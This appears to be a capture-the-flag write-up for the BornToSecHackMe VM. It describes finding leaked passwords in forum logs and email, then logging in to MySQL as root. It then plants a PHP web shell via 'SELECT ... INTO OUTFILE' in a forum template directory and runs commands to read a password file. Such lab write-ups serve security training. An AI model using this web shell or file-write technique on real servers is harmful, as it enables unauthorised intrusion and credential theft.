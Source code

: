 While looking at the forum's posts, we find out that the **problem login** post contains a password to connect to lmezard email account :
```
Oct 5 08:45:27 BornToSecHackMe sshd[7547]: pam_unix(sshd:auth): check pass; user unknown
Oct 5 08:45:27 BornToSecHackMe sshd[7547]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=161.202.39.38-static.reverse.softlayer.com
Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Failed password for invalid user !q\]Ej?*5K5cy*AJ from 161.202.39.38 port 57764 ssh2
Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Received disconnect from 161.202.39.38: 3: com.jcraft.jsch.JSchException: Auth fail [preauth]
Oct 5 08:46:01 BornToSecHackMe CRON[7549]: pam_unix(cron:session): session opened for user lmezard by (uid=1040)
```

We can use that to access to her webmail and find out this email * laurie@borntosec.net* / `!q\]Ej?*5K5cy*AJ`
```
Hey Laurie,

You cant connect to the databases now. Use root/Fg-'kKXBj87E:aJ$

Best regards.
```

We can then connect to the database as root.


## Using PhpMyAdmin to access Server

#### Where to store the backdoor shell in apache server ?
We want to insert a file in the server thx to the mysql root account. This file will include a kind of backdoor shell executing commands and returning result on the webpage.

We need to be able to store the php script in the `/var/www` folder served by apache. The forum service is named `my little forum` (see bottom page of forum). Thanks to its [github page](https://github.com/ilosuna/mylittleforum) we can find a path that we should be able to use in order upload a file :

```
Depending on your server configuration the write permissions of the subdirectory templates_c (CHMOD 770, 775 or 777) and the file config/db_settings.php (CHMOD 666) might need to be changed in order that they are writable by the script.
```

We use the ISO file to know the content of the filesystem. (Read **mount_iso.md**)  
We notice a nice path : **/home/LOOKATME/password**  

#### Shell backdoor ?

This allow us to run shell commands through the web server.
- store file : `SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE "/var/www/forum/templates_c/test.php"`
- browse at : `<vm_ip>/forum/templates_c/test.php?cmd=cat /home/LOOKATME/password`
- result : `lmezard:G!@M6f4Eatau{sF"`
